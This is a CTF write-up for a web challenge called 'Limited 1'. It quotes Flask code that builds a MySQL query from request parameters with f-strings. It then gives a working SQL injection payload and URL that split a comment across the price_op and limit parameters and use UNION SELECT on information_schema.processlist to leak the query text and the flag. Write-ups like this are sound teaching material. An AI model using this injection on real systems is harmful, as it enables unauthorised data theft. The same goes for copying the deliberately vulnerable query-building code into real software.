

# Limited 1

Can you attack the menu system to read the flag that is in a comment inside the query itself?
(source provided as dist.tar.gz)
Note: This is the first in a series of 3 challenges

https://limited-app-974780027560.us-east5.run.app/

initialize.sql
```
USE ctf;
-- This password is 13 characters and can be found in rockyou.
-- It is the flag for one of the challenges using this source
-- BUT it needs to be wrapped by wctf{} before submitting.
create user 'flag' identified by 'REDACTED_FLAG';

grant select on mysql.user to ctf;

-- The actual name of this table in the host challenge starts with Flag_ but is unguessable.
CREATE TABLE Flag_REDACTED
(
    value VARCHAR(255) NOT NULL
);

INSERT INTO Flag_REDACTED (value) VALUES ('wctf{redacted-flag}');
```

- Flag_REDACTEDというテーブルにフラグが保存されている


app.py
- /query エンドポイント
```
price = float(request.args.get('price') or '0.00')
price_op = str(request.args.get('price_op') or '>')
limit = str(request.args.get('limit') or '1')

query = f"""SELECT /*{FLAG1}*/category, name, price, description FROM Menu 
            WHERE price {price_op} {price} ORDER BY 1 LIMIT {limit}"""
```
- price_op の長さチェック（4文字以内）もある。
- limit には特にフィルタリングがないため、SQLインジェクションの可能性

## solve

- SQLインジェクションの利用する

```
SELECT /*wctf{redacted-flag}*/ category, name, price, description 
FROM Menu 
WHERE price < /* ORDER BY 1 
LIMIT */ 0 
UNION SELECT 1, (SELECT info FROM information_schema.processlist WHERE id = CONNECTION_ID()), 3, 4 -- 
```
```
https://limited-app-974780027560.us-east5.run.app/query?price=10.00&price_op=< /*&limit=*/ 0 UNION SELECT 1, (SELECT info FROM information_schema.processlist WHERE id = CONNECTION_ID()), 3, 4 --  
```




## flag
`wctf{bu7_my5ql_h45_n0_curr3n7_qu3ry_func710n_l1k3_p0576r35_d035_25785458}`